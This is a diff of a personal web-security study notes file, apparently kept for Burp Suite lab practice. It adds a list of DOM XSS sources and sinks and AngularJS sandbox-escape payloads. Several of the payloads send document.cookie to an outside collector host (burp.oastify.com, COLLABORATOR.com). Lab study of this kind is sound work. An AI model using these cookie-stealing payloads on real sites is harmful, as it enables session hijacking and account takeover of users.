

Before and after one commit to B310M0R/notes, a Markdown page: useful.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
zaebalsa

````diff
--- a/useful.md
+++ b/useful.md
@@ -11,7 +11,7 @@
 * Server-Side Prototype Pollution Scanner
 * DOM Invader (burp browser)
 * Java Deserialization Scanner
-
+1
 ## Tips:
 1. Use targeted scan (in Intruder highlight insertion point and use option run targeted scan)
 2. Passas much mystery labs as possible and note and repeat those with mistakes
@@ -19,6 +19,31 @@
 
 ## XSS
 1. If "Search" or "Comments" functionality is present - scan them for XSS.
+3. Review the source code to identify the sources , sinks or methods that may lead to exploit, list of samples:
+```
+document.write()
+window.location
+document.cookie
+eval()
+document.domain
+WebSocket()
+element.src
+postMessage()
+setRequestHeader()
+FileReader.readAsText()
+ExecuteSql()
+sessionStorage.setItem()
+document.evaluate()
+JSON.parse
+ng-app
+URLSearchParams
+replace()
+innerHTML
+location.search
+addEventListener1
+```
+* check with DOM Invader
+* angularJS - `ng-app` in HTML or `angular 1-7-7.js`
 
 ### Payloads
 1. DOM XSS in document.write sink using source location.search inside a select element:
@@ -30,17 +55,27 @@ Adapted version:
 ```
 "></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
 ```
+source code reveal `document.write` is the sink used with `location.search` allowing us to add `storeId` query parameter with a value containing the JavaScript payload inside a `<select>` statement.
 2. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded.
+angularJS - `ng-app` in HTML or `angular 1-7-7.js`
+We simply detect this vuln in Search functionality via passing `{{7*7}}`
 ```
 {{constructor.constructor('alert(1)')()}}
+Or
+{{$on.constructor('alert(1)')()}}
+Or
+{{$eval.constructor('alert(1)')()}}
 ```
 Adapted version:
 ```
 {{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
+Or
+{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
 ```
+Note: The session cookie property must not have the HttpOnly secure flag set in order for XSS to succeed.
 3. Reflected DOM XSS
 ```
-\"-alert()}//https://github.com/B310M0R/notes/blob/main/useful.md
+\"-alert()}//
 ```
 Adapted:
 ```
````
Also changed, not shown: other parts of useful.md (+34 -2 lines).
